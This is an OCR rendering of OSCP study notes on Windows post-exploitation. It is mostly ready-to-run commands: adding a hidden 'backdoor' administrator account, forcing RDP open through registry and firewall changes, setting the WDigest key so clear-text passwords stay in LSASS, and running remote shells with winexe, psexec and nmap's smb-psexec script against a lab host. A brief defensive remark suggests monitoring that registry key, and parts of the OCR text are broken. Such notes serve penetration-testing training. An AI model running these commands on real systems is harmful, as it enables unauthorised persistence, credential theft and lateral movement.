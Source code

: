# OSCP - Windows Post Exploitation
#### Backdoor User

      net user backdoor backdoor123 /add
      net localgroup administrators backdoor /add
      net localgroup "Remote Desktop Users" backdoor /add

#### Enabling RDP

      netsh firewall set service RemoteDesktop enable

      reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t
      REG_DWORD /d 0 /f
      reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f

      sc config TermService start= auto
      netsh.exe
      firewall
      add portopening TCP 3389 "Remote Desktop"

OR:

      netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow

      program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
      Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes
      profile=private,domain localport=3389 protocol=tcp

      netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow

      program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
      Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes
      profile=private,domain localport=3389 protocol=udp

OR (meterpreter)

      run post/windows/manage/enable_rdp

https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/


## Dumping Credentials
https://adsecurity.org/?page_id=1821
in order to prevent the “clear-text” password from being placed in LSASS, the following registry key needs to be set to “0” (Digest Disabled):

      HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)

This registry key is worth monitoring in your environment since an attacker may wish to set it to 1 to enable Digest password support which forces “clear-text” passwords to be placed in LSASS on any version of Windows from Windows 7/2008R2 up to Windows 10/2012R2. Windows 8.1/2012 R2 and newer do not have a “UseLogonCredential” DWORD value, so it would have to be created. The existence of this key on these systems may indicate a problem.

Remote Commands

      winexe --user=backdoor%laKK195@19z  //10.11.1.218 ipconfig

      winexe --user=backdoor%laKK195@19z --system //10.11.1.218 cmd

OR

      psexec (from Windows)

OR

      nmap -sU -sS --script smb-psexec.nse --script-args=smbuser=<username>,smbpass=<password>[,config=<config>] -p U:137,T:139 <host>

a
